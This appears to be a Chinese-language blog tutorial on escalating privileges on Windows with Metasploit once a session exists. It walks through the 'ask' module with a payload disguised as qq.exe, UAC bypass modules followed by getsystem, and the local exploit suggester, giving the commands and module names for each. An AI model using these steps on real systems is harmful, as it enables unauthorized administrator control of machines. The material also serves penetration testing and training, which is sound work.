 ```yaml
---
title: MSF提权
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-22 21:04:04
password: xxxxx
summary: 权限提升
tags: 权限提升
categories: 权限提升
---
```


---

### **MSF权限提升**

#### **方法：**

- 提高程序运行级别
- BypassUAC
- 利用漏洞提权

 一、提高程序运行权限

获取到session后发现权限比较低，此时可以使用  exploit/windows/local/ask模块来尝试进行攻击

![image-20201022225705503](MSF提权/image-20201022225705503.png)

```
set session 1
set filename qq.exe
exploit
```

![image-20201022211517291](MSF提权/image-20201022211517291.png)



获取到新的session，backkground退回msf，session，执行getsystem

![image-20201022212015935](MSF提权/image-20201022212015935.png)

![image-20201022212235253](MSF提权/image-20201022212235253.png)

![image-20201022212618886](MSF提权/image-20201022212618886.png)

二、UAC绕过

相关模块

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_eventvwr 
```

bypassuac，先bypassuac在通过getsystem获取一个更高权限的session

![image-20201022215103702](MSF提权/image-20201022215103702.png)

![image-20201022215139866](MSF提权/image-20201022215139866.png)



三、利用漏洞提权

相关模块

自动查找响应系统提权exp，search suggester这个模块



```
use post/multi/recon/local_exploit_suggester
set session id
run
```

![image-20201022220516950](MSF提权/image-20201022220516950.png)

然后利用相关exp尝试提权



----